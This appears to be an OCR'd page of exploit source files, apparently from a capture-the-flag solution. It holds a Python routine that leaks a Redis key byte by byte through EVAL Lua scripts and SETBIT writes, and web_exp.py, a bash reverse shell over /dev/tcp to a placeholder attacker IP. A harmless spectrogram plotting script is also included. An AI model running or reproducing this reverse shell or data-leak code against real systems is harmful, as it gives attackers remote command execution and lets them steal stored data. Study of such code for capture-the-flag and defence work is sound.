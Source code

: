 ```python
            retry_time *= 2

    return resp.text

def result():
    return int(command([]).rstrip()[1:])

def get_string(key):
    command([ 'EVAL', f"return redis.call('SET', '/{secret}', string.rep('~', redis.call('STRLEN', '{key}')))", '0' ])

    num = result()

    res = []

    for i in range(num):
        command([ 'EVAL', f"local i = {i}; return redis.call('SET', '/{secret}', string.rep('~', string.byte(redis.call('GETRANGE', '{key}', i, i))))", '0' ])
        res.append(result())
        print(f'{i}/{num}', bytes(res))
        time.sleep(0.1)

    return bytes(res)

def set_setbit(key, data):
    cleared_data = bytes(c & 0x7f for c in data)
    command([ 'SET', key, cleared_data ])

    for i, c in enumerate(data):
        if c & 0x80:
            print(i)
            command([ 'SETBIT', key, str(8 * i), '1' ])
            time.sleep(0.1)
```

`web_exp.py`

```python
import os

os.system('/bin/bash -c "exec 13<>/dev/tcp/insert-ip-here/port ; bash 0<&13 1>&13 2>&13 ; exec 13<&- 13>&-"')
```

`listen_spec.py`

```python
import numpy as np
import matplotlib.pyplot as plt
import wave

with wave.open('o.wav') as wf:
    nsamp = wf.getnframes()
    print(nsamp, 'samples')
    data = np.frombuffer(wf.readframes(nsamp), dtype=np.int16).astype(np.float)

plt.figure(figsize=(50, 6))
plt.specgram(data, NFFT=256, Fs=1/44100)
plt.savefig('spec.png', bbox_inches='tight')
```
